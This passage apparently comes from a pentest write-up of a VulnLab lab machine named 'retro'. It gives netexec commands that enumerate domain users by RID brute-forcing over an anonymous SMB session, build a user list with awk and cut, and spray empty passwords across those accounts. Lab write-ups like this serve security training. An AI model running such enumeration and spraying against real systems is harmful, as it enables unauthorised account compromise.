 <aside>
<img src="https://www.notion.so/icons/checkmark_green.svg" alt="https://www.notion.so/icons/checkmark_green.svg" width="40px" /> *We can enumerate users using netexec, running as the following:*
`   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u ' ' -p '' --rid-brute`

![image.png](image%208.png)

</aside>

## HIGH    -  Weak Password Policy

<aside>
<img src="https://www.notion.so/icons/light-bulb_yellow.svg" alt="https://www.notion.so/icons/light-bulb_yellow.svg" width="40px" /> *We can use* `awk` *and/or* `cut` *commands to generates a clean user list:*
`   th3g3ntl3m4n   ~/vulnlab/retro  cat netexec_brute_rid_out.txt | awk '{print $6}' | cut -d "\\" -f 2 > users.txt`

</aside>

## MEDIUM    -  SMB Anonymous Login (SMB Null Session)

<aside>
<img src="https://www.notion.so/icons/add_blue.svg" alt="https://www.notion.so/icons/add_blue.svg" width="40px" /> *We can apply a password spray attack, setting as password, initially, an empty value:*
`   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u users.txt -p '' --continue-on-success`
